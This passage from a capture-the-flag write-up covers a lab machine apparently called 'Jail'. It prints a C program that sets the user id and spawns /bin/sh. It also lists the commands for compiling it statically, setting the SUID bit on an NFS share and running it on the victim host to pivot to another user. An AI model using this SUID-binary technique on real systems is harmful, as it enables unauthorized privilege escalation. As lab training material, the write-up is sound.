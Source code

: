 > **shell.c**:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(){
  setreuid(1000,1000);
  system("/bin/sh");
  return 0;
}
```

```bash
gcc shell.c -o shell
chmod u+s shell
ls -la shell
```

> **Victime Machine**:

```bash
cd /var/nfsshare
ls -la /var/nfsshare/shell
# :) SETUID
./shell
# /lib64/libc.so.6: version `GLIBC_2.34' not found (required by ./shell)
```

> **Attacker Machine**:

```bash
gcc shell.c -o shell -static
chmod u+s shell
```

> **Victime Machine**:

```bash
./shell
whoami
# :)
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There is another cleaner method to compile the malicious binary, which is to employ the use of **containers**, it is only necessary to **[run a container and open a Bash shell inside it (also that it is deleted once it exits the container)](https://phoenixnap.com/kb/docker-run-command-with-examples){:target="_blank"}**, then I must install the necessary packages for compilation and to transfer it to the mount set on my attacking machine. Finally I repeat the steps done previously, enable the **SUID** bit of the binary and run it on the victim machine, again I have succeeded in pivoting the user.
